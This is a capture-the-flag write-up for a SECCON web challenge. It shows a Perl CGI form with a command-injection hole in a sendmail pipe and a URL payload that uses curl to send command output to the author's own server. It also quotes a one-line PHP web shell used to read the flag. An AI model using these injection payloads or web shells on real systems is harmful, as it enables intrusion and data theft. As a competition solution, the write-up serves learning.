 Entry form
----------

Another pretty easy problem. We are given a link to a form where we can enter a username and email. After submitting the form the page says "Your entry was sent". Not very much going on here.

The page is a cgi script, and is probably injectable.

We take a look at the root of the web server (http://entryform.pwn.seccon.jp), and notice that it is shows the directory structure. From there we find the file `register.cgi_bak`, apparently the source code for the entry form:


Here is the most interesting part of that file:
```
if($q->param("mail") ne '' && $q->param("name") ne '') {
  open(SH, "|/usr/sbin/sendmail -bm '".$q->param("mail")."'");
  print SH "From: keigo.yamazaki\@seccon.jp\nTo: ".$q->param("mail")."\nSubject: from SECCON Entry Form\n\nWe received your entry.\n";
  close(SH);
  
  open(LOG, ">>log"); ### <-- FLAG HERE ###
  flock(LOG, 2);
  seek(LOG, 0, 2);
  print LOG "".$q->param("mail")."\t".$q->param("name")."\n";
  close(LOG);
```

The `open` call runs commands by concatinating a string with user input. We can add a single quote to the `mail` query string argument, then inject arbitrary commands. Here is a url that runs the ls command, and sends the output to a server we control.
```
http://entryform.pwn.seccon.jp/register.cgi?mail=%27`curl%20<my server>:9999/%20--data%20%22$(ls)%22`%27&name=asdf&action=Send
```
*Note: I used `curl -d` to send the results of the commands I ran to a server I controlled, but apparently that was not needed; you could just run the commandand the results would show up in the page.*

Either way, next we try to run `cat log`, but this does not work because the user we are running commands as only has write permissions to that file.

Conveniently, we find a script `backdoor123.php` under the `SECRETS` directory on the web server. It provides a way around this issue:
```
<pre><?php system($_GET['cmd']); ?></pre>
```

From there, we simple run `head` to get the flag out of the log file.

The final url:
```
http://entryform.pwn.seccon.jp/SECRETS/backdoor123.php?cmd=head%20-n3%20../log
```

And the flag: SECCON{Glory_will_shine_on_you.}
